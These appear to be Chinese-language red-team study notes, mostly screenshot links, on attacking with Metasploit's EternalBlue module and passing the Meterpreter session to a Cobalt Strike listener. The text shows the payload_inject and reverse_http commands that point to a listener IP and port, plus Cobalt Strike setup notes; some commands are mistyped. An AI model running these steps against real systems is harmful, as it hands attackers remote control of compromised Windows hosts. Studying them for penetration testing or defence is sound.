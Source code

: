#### **msf调用永恒之蓝攻击模块将会话转移到cs中**

---



![image-20210827111457310](会话转移\image-20210827111457310.png)

![image-20210827111547972](会话转移\image-20210827111547972.png)

![image-20210827111721827](会话转移\image-20210827111721827.png)

![image-20210827111846007](会话转移\image-20210827111846007.png)

![image-20210827112426841](会话转移\image-20210827112426841.png)

![image-20210827112449014](会话转移\image-20210827112449014.png)

![image-20210827112809967](会话转移\image-20210827112809967.png)

![image-20210827112935235](会话转移\image-20210827112935235.png)

![image-20210827113338132](会话转移\image-20210827113338132.png)

![image-20210827113359985](会话转移\image-20210827113359985.png)

![image-20210827113620880](会话转移\image-20210827113620880.png)

![image-20210827113857288](会话转移\image-20210827113857288.png)





### **Cobalt Strike**

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](会话转移\image-20210827140254423.png)

![image-20210827140409050](会话转移\image-20210827140409050.png)

![image-20210827160438311](会话转移\image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](会话转移\image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](会话转移\image-20210827162931510.png)

![image-20210827163040114](会话转移\image-20210827163040114.png)

![image-20210827163212188](会话转移\image-20210827163212188.png)

![image-20210827173045062](会话转移\image-20210827173045062.png)

![image-20210827174242671](会话转移\image-20210827174242671.png)

